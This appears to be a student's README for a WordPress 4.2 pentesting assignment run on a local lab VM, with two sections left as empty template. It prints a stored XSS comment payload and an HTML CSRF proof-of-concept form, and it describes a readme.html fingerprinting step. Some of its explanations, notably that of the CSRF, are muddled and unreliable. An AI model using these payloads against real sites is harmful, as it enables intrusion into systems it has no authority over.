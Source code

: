 # Project 7 - WordPress Pentesting

Time spent: **17** hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pentesting Report

1. Unauthenticated Stored Cross-Site Scripting
  - [ ] Summary: This is a XSS attack which stores a script in the comment section of a post. When an unaware user navigates to the link, they are constantly bombabred with the hello world pop-up
    - Vulnerability types: XSS
    - Tested in version: 4.2
    - Fixed in version: 4.2.1
  - [ ] GIF Walkthrough: https://gph.is/2Gf2eF0
  - [ ] Steps to recreate: I copied the code from the Kali Linux and added a bunch As to the end of the script to overload the comment. I then pasted the script onto the comment section and the code is executed
  - [ ] Affected source code:<a title='x onmouseover=alert(unescape(/hello%20world/.source)) style=position:absolute;left:0;top:0;width:5000px;height:5000px  AAAAAAAAAAAA...[64 kb]..AAA'></a>
    - https://klikki.fi/adv/wordpress2.html
    
2. Filesystem Credentials Dialog CSRF
  - [ ] Summary: This attack manipulates the login page and uses a fake login button to lure the user into logging into a malicious website set up by the attacker, stealing their usernames and passwords. 
    - Vulnerability types: CSRF
    - Tested in version:4.2
    - Fixed in version: 4.2.15
  - [ ] GIF Walkthrough: https://gph.is/2L2LCE3
  - [ ] Steps to recreate: I first deleted the original login button on wordpress. Then I used html code given on the website and pasted that onto the login form so that it looks like a regular login button. Information that are being inputted into that website are then captured by burp and the attacker can use those captured credentials to login.
  - [ ] Affected source code: 
  <html>
   <body>
      <form action="http://<target>/wp-admin/plugins.php" method="POST">
         <input type="hidden" name="hostname" value="sumofpwn.nl" />
         <input type="hidden" name="connection_type" value="ftp" />
         <input type="hidden" name="password" value="password" />
         <input type="submit" value="Submit request" />
      </form>
   </body>
</html>
    - https://sumofpwn.nl/advisory/2016/cross_site_request_forgery_in_wordpress_connection_information.html
    
1. Fingerprinting
  - [ ] Summary: This readme file exposes the version number of wordpress being used. This allows the attacker to look for vulnerabilities within that version and exploit it.
    - Vulnerability types: Fingerprinting or enumeration
    - Tested in version: 4.2
    - Fixed in version: 
  - [ ] GIF Walkthrough: https://gph.is/2GoPBY4
  - [ ] Steps to recreate: You type in /readme.html at the end of the URL and the version wordpress is currently running on is given to the attacker
  - [ ] Affected source code: http://wpdistillery.vm/readme.html
    - [Link 1]
    
1. (Optional) Vulnerability Name or ID
  - [ ] Summary: 
    - Vulnerability types:
    - Tested in version:
    - Fixed in version: 
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: 
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
1. (Optional) Vulnerability Name or ID
  - [ ] Summary: 
    - Vulnerability types:
    - Tested in version:
    - Fixed in version: 
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: 
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php) 

## Assets

List any additional assets, such as scripts or files

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## Notes

Describe any challenges encountered while doing the work

## License

    Copyright [yyyy] [name of copyright owner]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
